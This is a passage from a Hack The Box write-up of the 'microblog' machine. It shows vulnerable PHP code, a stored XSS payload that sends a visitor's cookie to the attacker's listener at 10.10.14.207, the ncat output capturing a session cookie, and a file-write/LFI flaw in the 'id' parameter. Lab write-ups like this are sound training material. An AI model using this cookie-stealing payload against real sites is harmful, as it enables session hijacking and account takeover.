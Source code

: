 There's a `pro` feature that gives an additional feature to upload images in the blogs, it has some input validation, but maybe we can get around those to upload a shell of some sort


## XSS (red herring)

One of the first things I noted is that there isn't really any input validation in the `txt` field creation, nor in the header one
```php
//add text
if (isset($_POST['txt']) && isset($_POST['id'])) {
chdir(getcwd() . "/../content");
$txt_nl = nl2br($_POST['txt']);
$html = "<div class = \"blog-text\">{$txt_nl}</div>";
$post_file = fopen("{$_POST['id']}", "w");
fwrite($post_file, $html);
fclose($post_file);
$order_file = fopen("order.txt", "a");
fwrite($order_file, $_POST['id'] . "\n");  
fclose($order_file);
header("Location: /edit?message=Section added!&status=success");
}
```

And that makes it vulnerable to XSS, so if I setup some stored XSS in my blog and another user with access to the pro feature visits my blog, I'll be able to steal his cookie, and log in as him, which would let me access the pro feature

```javascript
<img src=x onerror=this.src="http://10.10.14.207:4242/?c="+document.cookie>
```

And it works, but of course all this sounds too easy for HTB, and this is probably just a red herring
```bash
ncat -lvnkp 4242
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.14.207.
Ncat: Connection from 10.10.14.207:53356.
GET /?c=username=l35fl0r1da0o8s2tdc4ku78g92 HTTP/1.1
Host: 10.10.14.207:4242
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://asdf.microblog.htb/
```

## LFI

There's also an `LFI` in the `id` param when creating `h1` headers or a `txt` field in the `edit/index.php` 
```php
//add header
if (isset($_POST['header']) && isset($_POST['id'])) {
chdir(getcwd() . "/../content");
$html = "<div class = \"blog-h1 blue-fill\"><b>{$_POST['header']}</b></div>";
$post_file = fopen("{$_POST['id']}", "w");
fwrite($post_file, $html);
fclose($post_file);
$order_file = fopen("order.txt", "a");
fwrite($order_file, $_POST['id'] . "\n");  
fclose($order_file);
```